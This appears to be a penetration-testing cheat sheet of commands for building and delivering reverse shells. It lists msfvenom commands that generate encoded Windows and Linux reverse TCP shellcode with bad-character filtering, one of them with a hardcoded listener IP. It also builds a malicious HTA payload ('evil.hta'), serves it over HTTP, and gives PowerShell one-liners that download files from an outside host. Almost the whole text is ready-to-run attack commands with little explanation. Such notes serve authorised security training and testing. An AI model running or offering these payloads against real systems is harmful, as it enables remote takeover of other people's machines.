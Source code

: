 ### Windows reverse tcp shells

#### Shikata ga nai
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<listening_host> LPORT=<listening_port> EXITFUNC=thread -f c -e x86/shikata_ga_nai -b <illegal characters as string ie. "\x00\x12...">
```

#### Fnstenv mov

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<listening host> LPORT=<listening port> -f c -e x86/fnstenv_mov -b "\x00\x0a\x0d\xff\x3b\x45..."
```

### Linux reverse tcp shells

```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.194 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b <illegal characters as string ie. "\x00\x12...">
```

## Leveraging HTML applications

### msfvenom hta payload

```sh
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<listening_host> LPORT=<listening_port> -f hta-psh -o evil.hta 
```

Next, serve the file on port 80

```sh
sudo python -m SimpleHTTPServer 80
```


## FIle transfer

### Linux to Windows:

**IF USING FTP TRANFERRING BINARIES, REMEMBER TO USE FTP BINARY MODE FIRST**
#### Powershell
In powershell:
```powershell
$client = new-object System.Net.WebClient
$client.DownloadFile("http://192.168.119.194/tmp.txt","C:\tmp\file.txt")
```

One line form:
```powershell
(new-object System.Net.WebClient).DownloadFile('http://www.xyz.net/file.txt','C:\tmp\file.txt')
```
